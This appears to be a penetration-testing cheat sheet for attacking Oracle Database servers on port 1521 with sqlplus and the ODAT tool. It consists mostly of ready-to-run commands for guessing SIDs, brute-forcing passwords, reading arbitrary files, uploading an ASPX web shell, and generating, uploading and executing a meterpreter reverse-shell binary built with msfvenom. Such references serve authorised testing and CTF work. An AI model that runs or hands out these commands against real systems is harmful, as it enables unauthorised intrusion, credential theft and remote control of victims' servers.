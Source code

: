 ```yaml
---
title: "Oracle Database"
date: 2024-7-5
tags: ["oracle", "database", "1521", "sqlplus", "odat", "revshell", "rce"]
---
```


### Tools

{{< tab set1 tab1 active >}}sqlplus{{< /tab >}}
{{< tab set1 tab2 >}}ODAT{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Install
sudo apt install oracle-instantclient-sqlplus
```

```console
# export LD_LIBRARY_PATH
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```console
# Check
sqlplus -V
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Install
sudo apt install odat
```

```console
# Check
odat --version
```

<small>*Ref: [Download ODAT](https://github.com/quentinhardy/odat)*</small>

{{< /tabcontent >}}

---

### Enum

```console
# SID enum (You only need one)
odat sidguesser -s <TARGET>
```

```console
# User/Password brute force
odat passwordguesser -s <TARGET> -d <SID> --accounts-file accounts.txt
```

```console
# Run all checks with creds as sysdba
odat all -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba
```

### General

```console
# Export everytime or add to ~/.zshrc
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```console
# Connect
sqlplus '<USER>/<PASSWORD>@<TARGET>:1521/<SID>'
```

```console
# Connect as sysdba (sudo)
sqlplus '<USER>/<PASSWORD>@<TARGET>:1521/<SID>' as sysdba
```

```console
# Check privilege
select * from user_role_privs;
```

---

### Abuse #1: Arbitrary Read

```console
odat ctxsys -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --getFile c:\\users\\administrator\\desktop\\file.txt
```

### Abuse #2: Upload File to RCE

```console
odat dbmsadvisor -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --putFile C:\\inetpub\\wwwroot cmdasp.aspx /usr/share/webshells/aspx/cmdasp.aspx
```

### Abuse #3: Execute binary to RCE

```console
# Create a malicious exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f exe -o revshell.exe
```

```console
# Upload
odat utlfile -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --putFile C:\\ProgramData revshell.exe revshell.exe
```

```console
# Execute
odat externaltable -s <TARGET> -U '<USER>' -P '<PASSWORD>' -d <SID> --sysdba --exec C:\\ProgramData revshell.exe
```
